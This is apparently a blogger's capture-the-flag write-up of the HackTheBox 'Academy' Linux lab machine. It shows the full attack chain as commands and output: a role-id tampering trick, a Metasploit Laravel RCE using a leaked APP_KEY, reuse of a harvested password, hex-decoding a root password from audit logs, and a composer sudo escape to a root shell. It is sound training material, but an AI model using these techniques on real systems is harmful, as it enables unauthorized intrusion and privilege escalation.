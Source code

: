 ```yaml
---
layout: post
title: [Academy - Linux]
subtitle: HackTheBox
thumbnail-img: /assets/img/academy.jpg
tags: [red]
---
```


This is my solution to the HackTheBox Passage Linux box, my second HTB writeup and my first root own!

# Academy - Linux - 10.10.10.215

# Enumeration:

As usual, we start out with nmap on the ip.

```
nmap -sC -sV -Pn 10.10.10.215
```

Results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-11 22:46 EST
Nmap scan report for 10.10.10.215
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```

From here, we see that there is an http port open with a redirect to http://academy.htb. We then open our hosts file by doing `sudo vim /etc/hosts`. There, we add the host `10.10.10.215 academy.htb`

Next, we access http://academy.htb, and find a login page. We try registering an account and logging in to see what the website gives. There is quite a bit of useless information, and I was unable to find any services that could be exploited. We then move to the `/admin.php` page to see if we can login as admin.

To do so, we use burpsuite, finding the original post request that we used to login to `register.php`, sending it to the repeater, modifying the username, password, confirm, and most importantly the roleid to 1, and then logging in with our set credentials into the `/admin.php` page.

## Breaking In:

Here, we see the following information:


![admin login page](/assets/img/admin_page_academy.png)


Let's check out http://dev-staging-01.academy.htb. Again we add this host to `/etc/hosts`, and we open the site. It gives us some good information:

```
APP_NAME 	"Laravel"

APP_ENV 	"local"

APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

APP_DEBUG 	"true"

APP_URL 	"http://localhost"

SERVER_ADMIN 	"admin@htb"

DB_CONNECTION 	"mysql"

DB_HOST 	"127.0.0.1"

DB_PORT 	"3306"

DB_DATABASE "homestead"

DB_USERNAME "homestead"

DB_PASSWORD "secret"
```



We look up "lavarel" exploits on metasploit, and we find one for remote code execution. Running this with a listener system, with academy.htb as the target host, and with the given APP_KEY, we get a shell.

Opening up Kali, we first connect to the VPN then run the following commands:

```
msfconsole
search laravel
set RHOSTS academy.htb
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set lhost tun0
set vhot dev-staging-01.academy.htb
run
```

Here, we get a webshell. We use `python3 -c "import pty; pty.spawn('/bin/bash')"` to spawn a reverse shell.

After poking around for a bit, we find the `/var/www/html/academy/.env`, with the `ls -al` command which has credentials:

```
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

We also find in the `/home' directory a list of possible users:

```
21y4d
ch4p
cry0l1t3
egre55
g0blin
mrb3n
```

We `su cry0l1t3` with cry0l1t3:mySup3rP4s5w0rd!!. 

## Winning:

Enter the home directory and `cat user.txt`

# Root: 

We can now ssh into cry0l1t3.

In cry0l1t3's `/var` directory, we enter `/var/log/audit`. Here, we want to search for root logins with the command:

```
cat * | grep 'comm="su"'
```

Results:

```
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

We need to crack this data. Turns out it is unencrypted hex. When converted, we get:

```
mrb3n_Ac@d3my!
```

Looks like creds to me :). We try mrb3n:mrb3n_Ac@d3my!, which works!

We now execute `sudo -l` with mrb3n's password and get the following:

```
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer

````

We then use https://gtfobins.github.io/gtfobins/composer/ to get:

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Running these commands breaks out of the restricted environment, giving access to a root shell. 

Navigating to the root directory, we are able to `cat root.txt` and own root!
